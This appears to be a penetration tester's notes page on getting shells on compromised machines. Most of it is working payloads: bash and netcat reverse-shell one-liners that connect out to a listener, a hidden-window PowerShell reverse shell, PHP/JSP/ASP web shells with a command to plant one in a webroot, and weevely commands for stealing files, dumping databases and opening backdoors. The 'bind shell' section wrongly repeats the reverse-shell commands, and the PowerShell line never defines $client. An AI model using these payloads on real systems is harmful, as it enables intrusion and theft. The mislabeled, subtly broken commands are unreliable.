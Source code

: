 ```yaml
---
title: Notes | Shell
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [bash, linux]
permalink: /notes/system/shell
---
```


# Shell

The shells are the main objective to compromise an attacked machine.
In [revshells](https://www.revshells.com/) we can find more.

# Types

| **Type** | **Description** |
|----------|-----------------|
| Reverse shell | Connection to a *listener* in the attacked machine |
| Bind shell | Bind to a port in the attacked machine and waits for the connection |
| Web shell | Runs commands via the web |

---

# Reverse shell

## Netcat connection

First we need to start a **netcat** in our machine:

```console
zero@pio$ nc -lvnp 9000
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-l`   | Listen mode   |
| `-v`   | Verbose mode   |
| `-n`   | Disable DNS resolution, speed up   |
| `-p`   | Port number   |

Then we execute the reverse shell command in the objective machine.

## Reverse shell command

Depends on the machine the command may be different. In [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) we can found many, as well as in *revshells*.

Some Linux examples can be seen as:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

And Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## After a reverse shell...
We can get a interactive shell with the following command:
```console
$ script /dev/null -c bash
```

---

# Bind Shell

Unlike the reverse shell, we need to make the connection to the bind shell. We can found some scripts in *PayloadsAllTheThings*.

## Bind shell command

As before, there are different commmands for different OS.
For Linux:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

For Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Netcat connection

Then we can start our netcat. We can see that we will connect directly:
```console
zero@pio$ nc <ip> <port>
```

## Upgrading shell

With an Bind shell we are really limited.

Let's use Python to upgrade it:
```console
zero@pio$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Then we press `CTRL + z` to background the shell and use the **stty** command:
```console
www-data@machine$ ^Z 

zero@pio$ stty raw -echo
zero@pio$ fg 

[Enter]
[Enter]
www-data@machine$ 
```
After, we can press `Enter` or use *reset*.

Maybe the shell does not cover the entire terminal. We can import our configuration:
```console
zero@pio$ echo $TERM 
  xterm-256color
zero@pio$ stty size
  67 318
```

Then in our bind shell:
```console
www-data@machine$ export TERM=xterm-256color
www-data@machine$ stty rows 67 columns 318
```

---

# Web shell

A web shell is directly in the webpage, for example with PHP or ASPX.

## Writing

This are some of the scripts to execute a web shell:
```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```
<% eval request("cmd") %> # asp
```

## Uploading the shell

Firstly, we need to upload the webshell.
Secondly, we need to figurate which type of server is:

| **Server**   | **Default Webroot**    |
|--------------- | --------------- |
| Apache   | `/var/www/html/`{: .filepath}   |
| Nginx   | `/usr/local/nginx/html/`{: .filepath}   |
| IIS   | `c:\inetpub\wwwroot\`{: .filepath}   |
| XAMPP   | `C:\xampp\htdocs\`{: .filepath}   |

For example, for a Apache in Linux with a PHP:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accesing the shell

Access the file through the browser or using cURL. With the option `?cmd=<command>` we can execute it.
For example: `http://<ip>/shell.php?cmd=whoami` in the web, or with curl:
```console
zero@pio$ curl http://<ip>/shell.php?cmd=whoami
  www-data
```

---

## weevely
To generate a shell:
```console
$ weevely generate [password] /home/kali/shell.php
$ weevely http://ip/shell.php [password]
```

We can use **:help** inside the weevely shell to get some functions. We can use **-h** in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
```console
$ :shell_sh -v [option] [command]
```

Some other options are:
- **:file_download [remotepath] [localpath]**: download files
- **:file_upload [localpath] [remotepath]**: upload files
- **:file_read [localpath]**: read a file
- **:sql_console**
- **:sql_dump -host [ip] -lpath [localpath].txt [user] [password]**: dump a db into a file (if the db doesn't have a password we should use **''** instead).
- **:backdoor_reversetcp [lhost] [lport]**: create a reverse shell (we need to add a **;** after each command).
##### If any option doesn't work we can use **-vector [option]** to change the attack.

